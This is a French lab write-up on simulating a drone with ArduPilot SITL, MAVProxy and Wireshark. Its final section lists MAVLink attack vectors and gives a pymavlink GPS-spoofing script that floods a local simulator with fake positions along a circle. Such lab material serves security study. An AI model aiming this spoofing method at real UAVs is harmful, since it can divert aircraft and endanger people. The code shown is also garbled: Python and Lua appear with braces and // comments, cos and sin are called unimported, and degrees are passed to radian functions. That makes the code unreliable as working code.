

Simulation & Analyse du Système UAV
Architecture du Système Simulé
Étape 1 — Installation d'ArduPilot SITL

Étape 2 — Installation de QGroundControl
QGroundControl est la station de contrôle au sol (GCS) pour drones, compatible avec MAVLink et SITL.

Étape 3 — Capture MAVLink avec Wireshark
local f_magic = ProtoField.uint8("mavlink.magic", "Magic")
local f_len = ProtoField.uint8("mavlink.len", "Length")
local f_seq = ProtoField.uint8("mavlink.seq", "Sequence")
local f_sysid = ProtoField.uint8("mavlink.sysid", "System ID")
local f_compid= ProtoField.uint8("mavlink.compid", "Component ID")
local f_msgid = ProtoField.uint8("mavlink.msgid", "Message ID")
mavlink.fields = {f_magic, f_len, f_seq, f_sysid, f_compid, f_msgid}
function mavlink.dissector(buffer, pinfo, tree) {
if buffer:len() < 6 then return end
pinfo.cols.protocol = "MAVLink"
local subtree = tree:add(mavlink, buffer(), "MAVLink Packet")
subtree:add(f_magic, buffer(0,1))
subtree:add(f_len, buffer(1,1))
subtree:add(f_seq, buffer(2,1))
subtree:add(f_sysid, buffer(3,1))
subtree:add(f_compid,buffer(4,1))
subtree:add(f_msgid, buffer(5,1))
}
local udp_port = DissectorTable.get("udp.port")
udp_port:add(14550, mavlink) // port MAVLink

Étape 4 — MAVProxy : Analyse des Messages
MAVProxy est un proxy MAVLink en ligne de commande permettant d'interagir directement avec le drone SITL.
Analyse du HEARTBEAT
Un heartbeat = un signal périodique (1 fois par seconde) : "Je suis actif, connecté, et voici mon état."

type : <type du système> // 2 = UAV (drone), 6 = GCS
autopilot : <type d’autopilot> // 3 = ArduPilot, 8 = aucun (GCS)
base_mode : <mode de base (bitmask)> // ex: 192 = armé + actif
custom_mode : <mode spécifique> // dépend de l’autopilot (Stabilize, Auto…)
system_status : <état du système> // 4 = actif, 3 = en attente
mavlink_version : <version MAVLink> // 3 = MAVLink v2
}
Analyse du GPS_RAW_INT

time_usec : <temps en µs> // horodatage du message
fix_type : <qualité du signal GPS> // 0 = pas de GPS, 6 = position 3D fiable
lat, lon : <position GPS> // latitude/longitude × 10⁷
alt : <altitude> // hauteur par rapport au niveau de la mer (mm)
eph, epv : <précision> // erreur horizontale / verticale
vel : <vitesse> // vitesse du drone (cm/s)
cog : <direction> // cap de déplacement (0.01°)
satellites_visible: <nb satellites> // plus il est élevé, plus le GPS est fiable
alt_ellipsoid : <altitude GPS brute> // altitude basée sur le modèle terrestre
h_acc, v_acc : <incertitude> // précision horizontale / verticale (mm)
vel_acc : <précision vitesse>
hdg_acc : <précision direction>
yaw : <orientation du drone> // angle de rotation (°)
}
Analyse de l'ATTITUDE

time_boot_ms : <temps depuis démarrage (ms)> // horodatage
roll : <inclinaison gauche/droite> // rotation autour de l’axe avant-arrière (radians)
pitch : <inclinaison avant/arrière> // rotation autour de l’axe gauche-droite (radians)
yaw : <orientation> // direction du drone (rotation axe vertical)
rollspeed : <vitesse de rotation roulis> // rad/s
pitchspeed : <vitesse de rotation tangage> // rad/s
yawspeed : <vitesse de rotation lacet> // rad/s
}
Étape 5 — Définir et Exécuter une Mission
Méthode 1 :Chargement et exécution de mission
| SEQ | current | frame | command | p1 | p2 | p3 | p4 | lat | lon | alt | autocontinue | Type |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 1 | 3 | 16 | 0 | 0 | 0 | 0 | -35.3625 | 149.1650 | 10 | 1 | NAV_WAYPOINT |
| 1 | 0 | 3 | 16 | 0 | 0 | 0 | 0 | -35.3630 | 149.1655 | 10 | 1 | NAV_WAYPOINT |
| 2 | 0 | 3 | 16 | 0 | 0 | 0 | 0 | -35.3635 | 149.1660 | 10 | 1 | NAV_WAYPOINT |
| 3 | 0 | 3 | 21 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | LAND |
QGC WPL 110
0 1 3 16 0 0 0 0 -35.3625 149.1650 10 1
1 0 3 16 0 0 0 0 -35.3630 149.1655 10 1
2 0 3 16 0 0 0 0 -35.3635 149.1660 10 1
3 0 3 21 0 0 0 0 0 0 0 1


Méthode 2 : Création de mission via MAP



# 1. Arrêter tous les processus
pkill -f arducopter 2>/dev/null
pkill -f mavproxy 2>/dev/null
# 2. Supprimer la mémoire (EEPROM)
cd ~/ardupilot/ArduCopter
rm -f eeprom.bin
# 3. Supprimer les paramètres corrompus
rm -f ~/ardupilot/build/sitl/tmp/default_params.parm
→ Cette procédure permet de remettre l’environnement à l’état initial en supprimant les configurations persistantes.
Étape 6 — : Simulation d'attaque
- Pas chiffré par défaut
- Pas authentifié
- Basé sur UDP ouvert
- Interception : voir les messages MAVLink (HEARTBEAT, GPS…)
- Spoofing : faux GPS → changer position · faux GCS → envoyer commandes
- Injection : ARM/DISARM · SET_MODE · NAV_TAKEOFF
- Replay : réutiliser des messages capturés
Scénario d’attaque : GPS Spoofing sur UAV
• modifier sa trajectoire
• le détourner de sa mission
• provoquer une instabilité du système
Source : https://peer.asee.org/gps-spoofing-on-uav-simulation-using-ardupilot.pdf
D’abord, on crée un script d’attaque qui génère et envoie en continu des positions GPS falsifiées en suivant une trajectoire circulaire afin de simuler un scénario de GPS spoofing sur le drone.
import math // bibliothèque mathématique
import time // gestion du temps
from pymavlink import mavutil // interface MAVLink
master = mavutil.mavlink_connection('udp:127.0.0.1:14551') // connexion au simulateur drone
master.wait_heartbeat() // attente de connexion active
center_lat = -353632621 // latitude centre (Canberra)
center_lon = 1491652374 // longitude centre (Canberra)
radius = 50000 // rayon du cercle (~500 m)
altitude = 30.0 // altitude constante
angle = 0 // angle initial
while True: // boucle d’attaque continue
spoofed_lat = int(center_lat + radius * cos(angle)) // calcul latitude circulaire
spoofed_lon = int(center_lon + radius * sin(angle)) // calcul longitude circulaire
master.mav.gps_input_send(
0, 0, 0, 0, 0, 3,
spoofed_lat, spoofed_lon, altitude,
0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 255
) // injection GPS spoofé
print("Angle:", angle, "Lat:", spoofed_lat/1e7, "Lon:", spoofed_lon/1e7) // affichage debug
angle += 10 // progression du cercle
if angle >= 360: angle = 0 // reset angle
time.sleep(0.5) // délai entre envois
}
Puis on configure MAVProxy dans un second terminal pour relayer la communication du drone en redirigeant le flux MAVLink du port 14550 vers le port 14551 afin de permettre l’interception et la manipulation des messages.
Dans le terminal SITL, on configure le drone en mode GUIDED, on l’arme, on le fait décoller et on ajuste les paramètres GPS nécessaires pour préparer le scénario de simulation.
Finalement, on lance l'attaque.

Récapitulatif des Commandes Clés
| Commande MAVProxy | Description | Utilisation |
|---|---|---|
| watch HEARTBEAT | Surveillance du signal périodique système | État GCS et drone |
| watch GPS_RAW_INT | Données GPS brutes en temps réel | Navigation, position |
| watch ATTITUDE | Roll, pitch, yaw du drone | Stabilisation |
| watch MISSION_CURRENT | Waypoint en cours d'exécution | Suivi de mission |
| wp load mission.txt | Charger un plan de mission | Avant vol autonome |
| wp list | Vérifier les waypoints chargés | Validation mission |
| mode AUTO | Passer en mode vol autonome | Démarrage mission |
| arm throttle | Armer les moteurs | Avant décollage |